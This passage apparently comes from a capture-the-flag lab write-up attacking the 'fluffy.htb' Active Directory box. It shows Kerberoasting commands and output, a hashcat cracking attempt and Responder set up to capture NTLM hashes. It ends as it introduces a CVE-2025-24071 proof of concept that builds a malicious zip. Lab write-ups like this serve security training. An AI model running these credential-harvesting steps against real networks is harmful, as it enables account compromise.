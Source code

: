 We note down that there is [PoC](https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom) for CVE-2025-24071, but don't dive into it yet. We first want to finish our usual AD enumeration steps, such as testing for [AS-REPRoasting](../../tl-dr/active-directory/attacks/as-reproasting.md) and [Kerberoasting](../../tl-dr/active-directory/attacks/kerberoasting.md). Initially, our Kerberoasting attempt fails with a clock skew error:

{% code overflow="wrap" %}
```bash
$ impacket-GetUserSPNs -request -dc-ip dc01.fluffy.htb fluffy.htb/j.fleischman
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
{% endcode %}

This occurs because the attacker’s system clock is not synchronized with the DC’s clock, which is critical for Kerberos authentication. To fix this, we sync our system clock:

```bash
$ sudo ntpdate dc01
```

Now retrying Kerberoasting, we successfully retrieve hashes of several service accounts:

{% code overflow="wrap" %}
```bash
$ impacket-GetUserSPNs -request -dc-ip dc01.fluffy.htb fluffy.htb/j.fleischman
...
ADCS/ca.fluffy.htb      ca_svc     
LDAP/ldap.fluffy.htb    ldap_svc   
WINRM/winrm.fluffy.htb  winrm_svc  
```
{% endcode %}

Unfortunately, none of these hashes can be cracked:

{% code overflow="wrap" %}
```bash
$ hashcat -m13100 svc_hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

### CVE-2025-24071

Since we have no other way in, we go back to the CVE-2025-24071 [PoC](https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom). First, we start Responder to capture hashes:

```bash
$ sudo responder -I tun0
...
[+] Current Session Variables:
    Responder Machine Name     [WIN-I4J8LPW1O3B] # The name of the share
    Responder Domain Name      [NO0W.LOCAL]
    Responder DCE-RPC Port     [46796]
```

Then, we generate a malicious `.zip` file with `msfconsole` that exploits the vulnerable Windows component to leak NTLM hashes:
